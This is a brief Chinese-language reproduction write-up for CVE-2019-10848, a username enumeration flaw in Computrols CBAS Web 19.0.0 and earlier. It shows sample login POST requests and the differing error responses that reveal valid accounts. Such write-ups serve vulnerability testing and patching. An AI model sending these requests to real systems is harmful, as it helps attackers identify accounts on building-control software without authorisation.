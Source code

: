 # CVE-2019-10848 Computrols CBAS Web 用户名枚举

## 漏洞影响

19.0.0及以下

## 复现过程

**测试无效用户：**


```bash
POST /cbas/index.php?m=auth&a=login HTTP/1.1

username=randomuser&password=&challenge=60753c1b5e449de80e21472b5911594d&response=e16371917371b8b70529737813840c62
```

Response


```bash
<!-- Failed login comments appear here -->
<p class="alert-error">randomuser</p>
```

**测试有效用户：**


```bash
POST /cbas/index.php?m=auth&a=login HTTP/1.1

username=admin&password=&challenge=6e4344e7ac62520dba82d7f20ccbd422&response=e09aab669572a8e4576206d5c14befc5s
```

Response


```bash
<!-- Failed login comments appear here -->
<p class="alert-error">Invalid username/password combination.  Please try again!</p>
```